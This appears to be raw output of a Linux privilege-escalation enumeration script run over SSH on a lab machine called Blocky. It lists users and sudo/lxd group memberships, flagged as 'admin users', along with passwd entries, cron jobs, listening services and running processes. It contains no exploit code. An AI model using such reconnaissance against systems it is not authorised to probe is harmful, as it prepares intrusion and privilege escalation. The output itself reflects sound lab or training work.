DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


Hostname:
Blocky


### USER/GROUP ##########################################
Current user/group info:
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


Users that have previously logged onto the system:
Username         Port     From             Latest
notch            pts/1    10.10.14.6       Fri Jan 26 05:25:20 -0600 2018


Who else is logged on:
 05:29:25 up 15:06,  1 user,  load average: 0.01, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
notch    pts/1    10.10.14.6       05:25    5.00s  0.05s  0.00s bash


Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=108(uuidd) gid=112(uuidd) groups=112(uuidd)
uid=109(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
uid=110(mysql) gid=117(mysql) groups=117(mysql)
uid=111(proftpd) gid=65534(nogroup) groups=65534(nogroup)
uid=112(ftp) gid=65534(nogroup) groups=65534(nogroup)
uid=113(sshd) gid=65534(nogroup) groups=65534(nogroup)

Seems we met some admin users!!!

uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


Sample entires from /etc/passwd (searching for uid values 0, 500, 501, 502, 1000, 1001, 1002, 2000, 2001, 2002):
root:x:0:0:root:/root:/bin/bash
notch:x:1000:1000:notch,,,:/home/notch:/bin/bash


Super user account(s):
root


Are permissions on /home directories lax:
total 12K
drwxr-xr-x  3 root  root  4.0K Jul  2  2017 .
drwxr-xr-x 23 root  root  4.0K Jul  2  2017 ..
drwxr-xr-x  5 notch notch 4.0K Jul  2  2017 notch


### ENVIRONMENTAL #######################################
 Environment information:
XDG_SESSION_ID=48
SHELL=/bin/bash
TERM=xterm-256color
SSH_CLIENT=10.10.14.6 36650 22
SSH_TTY=/dev/pts/1
USER=notch
PATH=/home/notch/bin:/home/notch/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
MAIL=/var/mail/notch
PWD=/home/notch
LANG=en_US.UTF-8
HOME=/home/notch
SHLVL=2
LOGNAME=notch
LC_CTYPE=en_US.UTF-8
SSH_CONNECTION=10.10.14.6 36650 10.10.10.37 22
LESSOPEN=| /usr/bin/lesspipe %s
XDG_RUNTIME_DIR=/run/user/1000
LESSCLOSE=/usr/bin/lesspipe %s %s
_=/usr/bin/env


Path information:
/home/notch/bin:/home/notch/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin


Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


Current umask value:
0002
u=rwx,g=rwx,o=rx


umask value as specified in /etc/login.defs:
UMASK		022


Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x   2 root root 4096 Jul  2  2017 .
drwxr-xr-x 101 root root 4096 Jul 16  2017 ..
-rw-r--r--   1 root root  589 Jul 16  2014 mdadm
-rw-r--r--   1 root root  670 Mar  1  2016 php
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--   1 root root  190 Jul  2  2017 popularity-contest

/etc/cron.daily:
total 60
drwxr-xr-x   2 root root 4096 Jul  2  2017 .
drwxr-xr-x 101 root root 4096 Jul 16  2017 ..
-rwxr-xr-x   1 root root  539 Apr  5  2016 apache2
-rwxr-xr-x   1 root root  376 Mar 31  2016 apport
-rwxr-xr-x   1 root root 1474 Jan 17  2017 apt-compat
-rwxr-xr-x   1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x   1 root root 1597 Nov 26  2015 dpkg
-rwxr-xr-x   1 root root  372 May  5  2015 logrotate
-rwxr-xr-x   1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x   1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x   1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x   1 root root  249 Nov 12  2015 passwd
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x   1 root root  214 May 24  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x   2 root root 4096 Jul  2  2017 .
drwxr-xr-x 101 root root 4096 Jul 16  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x   2 root root 4096 Jul  2  2017 .
drwxr-xr-x 101 root root 4096 Jul 16  2017 ..
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x   2 root root 4096 Jul  2  2017 .
drwxr-xr-x 101 root root 4096 Jul 16  2017 ..
-rwxr-xr-x   1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x   1 root root  771 Nov  6  2015 man-db
-rw-r--r--   1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x   1 root root  211 May 24  2016 update-notifier-common


Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


Jobs held by all users:
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command

@reboot cd /home/notch/minecraft && ./start.sh


### NETWORKING  ##########################################
Network & IP info:
ens160    Link encap:Ethernet  HWaddr 00:50:56:b9:bb:18
          inet addr:10.10.10.37  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:bb18/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:bb18/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:225621 errors:0 dropped:57 overruns:0 frame:0
          TX packets:95348 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:23980812 (23.9 MB)  TX bytes:36703463 (36.7 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:290906 errors:0 dropped:0 overruns:0 frame:0
          TX packets:290906 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:21579661 (21.5 MB)  TX bytes:21579661 (21.5 MB)


ARP history:
? (10.10.10.2) at 00:50:56:aa:d8:f7 [ether] on ens160


Default route:
default         10.10.10.2      0.0.0.0         UG    0      0        0 ens160


Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0   8140 10.10.10.37:22          10.10.14.6:36650        ESTABLISHED -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 0.0.0.0:25565           :::*                    LISTEN      1227/java
tcp6       0      0 127.0.0.1:8192          :::*                    LISTEN      1227/java
tcp6       0      0 10.10.10.37:80          10.10.14.6:53576        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53580        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53586        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53590        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53596        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53588        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53600        ESTABLISHED -
tcp6       0    473 10.10.10.37:80          10.10.14.6:53608        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53574        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53582        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53578        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53584        ESTABLISHED -
tcp6       0    478 10.10.10.37:80          10.10.14.6:53604        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53594        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53598        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53602        ESTABLISHED -
tcp6       0    472 10.10.10.37:80          10.10.14.6:53606        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53572        ESTABLISHED -
tcp6       0      0 10.10.10.37:80          10.10.14.6:53592        ESTABLISHED -
tcp6       0    478 10.10.10.37:80          10.10.14.6:53610        ESTABLISHED -


Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name


### SERVICES #############################################
Running processes:
USER        PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root          1  0.0  0.2  38028  6048 ?        Ss   Jan25   0:05 /sbin/init
root          2  0.0  0.0      0     0 ?        S    Jan25   0:00 [kthreadd]
root          3  0.0  0.0      0     0 ?        S    Jan25   0:00 [ksoftirqd/0]
root          5  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/0:0H]
root          7  0.0  0.0      0     0 ?        S    Jan25   0:01 [rcu_sched]
root          8  0.0  0.0      0     0 ?        S    Jan25   0:00 [rcu_bh]
root          9  0.0  0.0      0     0 ?        S    Jan25   0:00 [migration/0]
root         10  0.0  0.0      0     0 ?        S    Jan25   0:00 [watchdog/0]
root         11  0.0  0.0      0     0 ?        S    Jan25   0:00 [kdevtmpfs]
root         12  0.0  0.0      0     0 ?        S<   Jan25   0:00 [netns]
root         13  0.0  0.0      0     0 ?        S<   Jan25   0:00 [perf]
root         14  0.0  0.0      0     0 ?        S    Jan25   0:00 [khungtaskd]
root         15  0.0  0.0      0     0 ?        S<   Jan25   0:00 [writeback]
root         16  0.0  0.0      0     0 ?        SN   Jan25   0:00 [ksmd]
root         17  0.0  0.0      0     0 ?        SN   Jan25   0:00 [khugepaged]
root         18  0.0  0.0      0     0 ?        S<   Jan25   0:00 [crypto]
root         19  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kintegrityd]
root         20  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         21  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kblockd]
root         22  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ata_sff]
root         23  0.0  0.0      0     0 ?        S<   Jan25   0:00 [md]
root         24  0.0  0.0      0     0 ?        S<   Jan25   0:00 [devfreq_wq]
root         28  0.0  0.0      0     0 ?        S    Jan25   0:00 [kswapd0]
root         29  0.0  0.0      0     0 ?        S<   Jan25   0:00 [vmstat]
root         30  0.0  0.0      0     0 ?        S    Jan25   0:00 [fsnotify_mark]
root         31  0.0  0.0      0     0 ?        S    Jan25   0:00 [ecryptfs-kthrea]
root         47  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kthrotld]
root         48  0.0  0.0      0     0 ?        S<   Jan25   0:00 [acpi_thermal_pm]
root         49  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         50  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         51  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         52  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         53  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         54  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         55  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         56  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         57  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         58  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         59  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         60  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         61  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         62  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         63  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         64  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         65  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         66  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         67  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         68  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         69  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         70  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         71  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         72  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root         73  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_0]
root         74  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_0]
root         75  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_1]
root         76  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_1]
root         81  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ipv6_addrconf]
root         94  0.0  0.0      0     0 ?        S<   Jan25   0:00 [deferwq]
root         95  0.0  0.0      0     0 ?        S<   Jan25   0:00 [charger_manager]
root        143  0.0  0.0      0     0 ?        S    Jan25   0:01 [kworker/0:2]
root        144  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_2]
root        145  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_2]
root        146  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_3]
root        147  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_3]
root        148  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_4]
root        149  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kpsmoused]
root        150  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_4]
root        151  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_5]
root        152  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_5]
root        153  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_6]
root        154  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_6]
root        155  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_7]
root        156  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_7]
root        157  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_8]
root        158  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_8]
root        159  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ttm_swap]
root        166  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_9]
root        167  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_9]
root        168  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_10]
root        169  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_10]
root        171  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_11]
root        172  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_11]
root        175  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_12]
root        181  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_12]
root        182  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_13]
root        183  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_13]
root        191  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_14]
root        193  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_14]
root        195  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_15]
root        198  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_15]
root        205  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_16]
root        208  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_16]
root        209  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_17]
root        211  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_17]
root        214  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_18]
root        216  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_18]
root        218  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_19]
root        220  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_19]
root        221  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_20]
root        223  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_20]
root        226  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_21]
root        228  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_21]
root        229  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_22]
root        231  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_22]
root        232  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_23]
root        233  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_23]
root        234  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_24]
root        235  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_24]
root        236  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_25]
root        237  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_25]
root        238  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_26]
root        239  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_26]
root        240  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_27]
root        241  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_27]
root        242  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_28]
root        243  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_28]
root        244  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_29]
root        245  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_29]
root        246  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_30]
root        247  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_30]
root        248  0.0  0.0      0     0 ?        S    Jan25   0:00 [scsi_eh_31]
root        249  0.0  0.0      0     0 ?        S<   Jan25   0:00 [scsi_tmf_31]
root        279  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        281  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        282  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        289  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kworker/0:1H]
root        358  0.0  0.0      0     0 ?        S<   Jan25   0:00 [raid5wq]
root        383  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kdmflush]
root        384  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        394  0.0  0.0      0     0 ?        S<   Jan25   0:00 [kdmflush]
root        395  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        412  0.0  0.0      0     0 ?        S<   Jan25   0:00 [bioset]
root        440  0.0  0.0      0     0 ?        S    Jan25   0:00 [jbd2/dm-0-8]
root        441  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ext4-rsv-conver]
root        508  0.0  0.1  29728  3540 ?        Ss   Jan25   0:00 /lib/systemd/systemd-journald
root        514  0.0  0.0      0     0 ?        S    Jan25   0:00 [kauditd]
root        528  0.0  0.0      0     0 ?        S<   Jan25   0:00 [iscsi_eh]
root        534  0.0  0.0 102972  1672 ?        Ss   Jan25   0:00 /sbin/lvmetad -f
root        541  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_addr]
root        550  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_mcast]
root        553  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_nl_sa_wq]
root        559  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ib_cm]
root        561  0.0  0.0      0     0 ?        S<   Jan25   0:00 [iw_cm_wq]
root        567  0.0  0.0      0     0 ?        S<   Jan25   0:00 [rdma_cm]
root        588  0.0  0.2  44784  4180 ?        Ss   Jan25   0:00 /lib/systemd/systemd-udevd
root        791  0.0  0.0      0     0 ?        S<   Jan25   0:00 [ext4-rsv-conver]
systemd+    822  0.0  0.1 100328  2548 ?        Ssl  Jan25   0:03 /lib/systemd/systemd-timesyncd
root       1120  0.0  0.3 275872  6152 ?        Ssl  Jan25   0:00 /usr/lib/accountsservice/accounts-daemon
daemon     1121  0.0  0.1  26048  2208 ?        Ss   Jan25   0:00 /usr/sbin/atd -f
root       1122  0.0  0.0   4404  1284 ?        Ss   Jan25   0:00 /usr/sbin/acpid
root       1123  0.0  0.1  28680  3076 ?        Ss   Jan25   0:00 /lib/systemd/systemd-logind
message+   1126  0.0  0.1  42904  3868 ?        Ss   Jan25   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root       1140  0.0  0.0  95372  1376 ?        Ssl  Jan25   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root       1143  0.0  0.1  29012  2940 ?        Ss   Jan25   0:00 /usr/sbin/cron -f
root       1149  0.0  1.0 277464 20576 ?        Ssl  Jan25   0:00 /usr/lib/snapd/snapd
root       1156  0.0  0.5 185868 10244 ?        Ssl  Jan25   0:30 /usr/bin/vmtoolsd
syslog     1161  0.0  0.1 256400  3148 ?        Ssl  Jan25   0:00 /usr/sbin/rsyslogd -n
root       1198  0.0  0.2 277184  5932 ?        Ssl  Jan25   0:00 /usr/lib/policykit-1/polkitd --no-debug
root       1214  0.0  0.0  13380   168 ?        Ss   Jan25   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
notch      1220  0.0  0.1  27192  2720 ?        Ss   Jan25   0:00 SCREEN -dmS blockycraft java -Xms500M -Xmx500M -jar ./sponge.jar nogui
notch      1227  1.1 30.3 2495664 615540 pts/0  Ssl+ Jan25  10:13 java -Xms500M -Xmx500M -jar ./sponge.jar nogui
root       1306  0.0  0.3  65524  6200 ?        Ss   Jan25   0:00 /usr/sbin/sshd -D
root       1335  0.0  0.0   5228   156 ?        Ss   Jan25   0:00 /sbin/iscsid
root       1336  0.0  0.1   5728  3516 ?        S<Ls Jan25   0:05 /sbin/iscsid
mysql      1388  0.0  8.5 1117240 173204 ?      Ssl  Jan25   0:14 /usr/sbin/mysqld
root       1444  0.0  0.0  15944  1820 tty1     Ss+  Jan25   0:00 /sbin/agetty --noclear tty1 linux
root       1450  0.0  1.4 286020 28680 ?        Ss   Jan25   0:01 php-fpm: master process (/etc/php/7.0/fpm/php-fpm.conf)
root       1454  0.0  1.4 325600 28620 ?        Ss   Jan25   0:01 /usr/sbin/apache2 -k start
www-data   1460  0.0  0.3 286020  7184 ?        S    Jan25   0:00 php-fpm: pool www
www-data   1461  0.0  0.3 286020  7184 ?        S    Jan25   0:00 php-fpm: pool www
proftpd    1471  0.0  0.2 119644  4260 ?        Ss   Jan25   0:00 proftpd: (accepting connections)
root       2049  0.0  0.0      0     0 ?        S    Jan25   0:00 [kworker/0:1]
root       2952  0.0  0.0      0     0 ?        S    01:39   0:00 [kworker/u256:1]
root       3240  0.0  0.0      0     0 ?        S    04:31   0:00 [kworker/u256:2]
www-data   3400  0.0  1.4 328528 29216 ?        S    04:52   0:00 /usr/sbin/apache2 -k start
www-data   3401  0.0  1.6 331616 32532 ?        S    04:52   0:00 /usr/sbin/apache2 -k start
www-data   3405  0.0  1.3 328672 26908 ?        S    04:52   0:00 /usr/sbin/apache2 -k start
www-data   3433  0.0  1.5 331608 32224 ?        S    04:52   0:00 /usr/sbin/apache2 -k start
www-data   3434  0.0  1.2 326492 26164 ?        S    04:52   0:00 /usr/sbin/apache2 -k start
www-data   3495  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3496  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3497  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3498  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3499  0.0  0.4 325812 10060 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3500  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3501  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3504  0.0  1.3 326572 28244 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3505  0.0  1.3 327032 27216 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3509  0.0  0.4 325672  8604 ?        S    05:18   0:00 /usr/sbin/apache2 -k start
www-data   3510  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3512  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3513  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3514  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3515  0.0  0.6 326004 13000 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3516  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3518  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3519  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
www-data   3521  0.0  0.4 325672  8604 ?        S    05:19   0:00 /usr/sbin/apache2 -k start
